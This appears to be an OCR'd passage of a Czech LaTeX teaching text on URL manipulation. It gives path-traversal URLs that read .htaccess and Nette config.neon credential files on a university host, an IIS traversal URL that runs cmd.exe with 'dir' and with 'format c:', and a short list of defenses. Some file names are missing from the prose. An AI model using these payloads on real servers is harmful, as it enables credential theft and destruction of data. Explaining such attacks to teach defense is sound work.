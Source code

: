 \documentclass[12pt, a4paper]{report}
\begin{document}
\begin{lstlisting}[label=man_url_get_htaccess,caption=Manipulace s URL - získání .htaccess]
http://portal.czu.cz/index.php?item=../.htaccess
\end{lstlisting}

\begin{lstlisting}[label=man_url_get_neon,caption=Manipulace s URL - získání config.neon]
http://portal.czu.cz/index.php?item=../config/config.neon
\end{lstlisting}

V prvním příkladě jsme se snažili získat soubor , který může obsahovat autentizační metody, nastavení práv apod. Ve druhém příkladě jsme se pokoušeli získat soubor . Tento soubor slouží pro uchování citlivých informací na webech, které využívají Nette Framework. Příkladem takových informací může být přihlášení k databázi.

\subsection{IIS Web Server}
Starší verze IIS\footnote{Internet Information Service - Microsoftem distribuovaná obdoba webového serveru Apache2} umožňovaly dokonce i vykonávat příkazy na serveru.

\begin{lstlisting}[label=iis_derave,caption=Ukázka URL pro \uv{děravé} IIS]
http://iis.czu.cz/scr/..%5c../winnt/system32/ cmd.exe?/c+dir+c:\
\end{lstlisting}

Tento příkaz spustil  (příkazová řádka systému Windows) a v něm příkaz . Nic nám tedy nebrání přidávat uživatele do systému, nebo formátovat pevné disky, jak lze vidět zde:

\begin{lstlisting}[label=iis_derave_format,caption=Formátování disku C: přes chybu v IIS]
http://iis.czu.cz/scr/..%5c../winnt/system32/ cmd.exe?/c+format+c:\
\end{lstlisting}

\subsection{Obrana}
\begin{itemize}
\item Mít správně nastavená oprávnění a cesty jednotlivých webových serverů (virtuálních hostů).
\item Kontrolovat, co vlastně do stránky vkládáme.
\item Úplně se vyhnout vkládání dat do stránky (například v PHP můžeme použít \textit{spl$\_$autoload$\_$register}, který nám automaticky podle zadané funkce načítá třídy ze souborového systému).
\end{itemize}
\end{document}
